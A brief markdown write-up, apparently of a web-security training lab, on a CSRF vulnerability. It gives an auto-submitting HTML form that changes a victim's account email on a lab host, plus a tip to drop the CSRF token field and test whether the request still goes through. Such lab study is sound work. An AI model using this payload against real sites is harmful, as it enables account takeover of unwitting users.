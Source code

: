 # CSRF Vulnerability


![****](/CSRF/Screenshots/cssrf3.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Just remove the CSRF Token field and check if you can submit the request!